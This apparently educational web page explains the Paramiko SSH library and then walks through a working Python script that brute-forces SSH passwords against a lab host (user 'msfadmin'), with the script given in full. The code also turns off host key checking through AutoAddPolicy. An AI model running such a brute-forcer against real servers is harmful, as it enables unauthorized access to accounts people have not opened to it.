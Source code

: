 ```yaml
---
title: "Bruteforce SSH"
description: ""
lead: ""
draft: false
images: []
weight: 140
toc: true
---
```


---

## What is Paramiko?

Paramiko is a Python implementation of SSH (Secure Shell) protocol which allows Python programs to establish secure connections to remote servers. Here's how you can install Paramiko and some basic usage instructions:

### Installation
You can install Paramiko using pip, the package installer for Python. To install the latest version of Paramiko, run the following command:


    pip install paramiko


### Basic Usage

First, you need to import the Paramiko library in your Python script:

    import paramiko


---

## Establish an connection

Let's uses the Paramiko library to establish an SSH connection to a remote server.

The first step is to import the Paramiko library in your Python script.

     import paramiko

### Define connection parameters

Next, define the connection parameters like IP address, username, and password of the remote server you want to connect to.

    ip = '192.168.198.136'
    username = 'ubuntu'
    password = 'pa$$w0rd'
    timeout = 5

In this example, we are using IP address 192.168.198.136 with ubuntu as the username and pa$$w0rd as the password. We are also setting a timeout value of 5 seconds.

### Set up the SSH client
Create an instance of the SSHClient class and set the missing_host_key_policy attribute to AutoAddPolicy. This will automatically add the remote server's SSH key to the local machine's list of known hosts.

    client_policy = paramiko.AutoAddPolicy()
    client = paramiko.SSHClient();
    client.set_missing_host_key_policy(client_policy)

### Connect to the remote server

Use the connect() method of the SSH client instance to establish an SSH connection with the remote server.

    client.connect(ip, username=username, password=password, timeout=timeout)

In this example, we are passing the IP address, username, password, and timeout value to the connect() method.

### Print the SSH client object
Finally, print the SSH client object to verify that the connection has been established successfully.

    print(client)

### Close the connection

After you are finished with the connection, you should close it to free up system resources.

    client.close()


## Bruteforce SSH

This is an example of a brute force attack using the Paramiko library to attempt to log in to an SSH server. The script creates a client object, defines a Brutes class that generates password guesses, and tries to connect to the SSH server using each password guess until the correct one is found.

Here are the steps to understand this script:

### Libraries


    import itertools as it
    import string
    from utils import timefunc
    import paramiko

This code imports the necessary libraries, including itertools, string, timefunc from the utils module, and paramiko.

### Define the create_client function


    def create_client():
        client = paramiko.SSHClient()
        client_policy = paramiko.AutoAddPolicy()
        client.set_missing_host_key_policy(client_policy)
        return client

This function creates an SSH client object using the paramiko library, sets the client's policy to auto-add any new host key, and returns the client object.

### Define the Brutes class


    class Brutes:
        def __init__(self, charset, length, ip):
            self.charset = charset
            self.length = length
            self.ip = ip
        
        @timefunc
        def crackit(self, username):
            client = create_client()
            for guess in self.guesses:
                try:
                    print(guess)
                    client.connect(self.ip, username=username, password=guess, timeout=0.5)
                    print('The password is {}'.format(guess))
                    return guess
                except paramiko.AuthenticationException as e:
                    print('{} is not it.'.format(guess)) 
                finally:
                    client.close()
        
        @property
        def guesses(self):
            for guess in it.product(self.charset, repeat=self.length):
                yield ''.join(guess)


This class takes in three arguments: the character set used to generate password guesses, the length of the password guesses, and the IP address of the target SSH server. The crackit method attempts to connect to the SSH server using each password guess generated by the guesses property until the correct password is found or all guesses have been exhausted. The guesses property generates all possible combinations of the characters in the character set for the given length.

### Define the main function

    def main():
        charset = 'aspeb'#'pqrstuvwxyzabcdefghijklmno'
        ip = '10.0.13.231'
        brute = Brutes(charset, 4, ip)
        password = brute.crackit(username='msfadmin')
        if password:
            print('Found {}'.format(password))

This function sets the character set, IP address, and length of the password guesses, creates a Brutes object, and attempts to crack the SSH password for the specified username. If the password is found, it is printed to the console.

### Run the code


    if __name__ == '__main__':
        main()



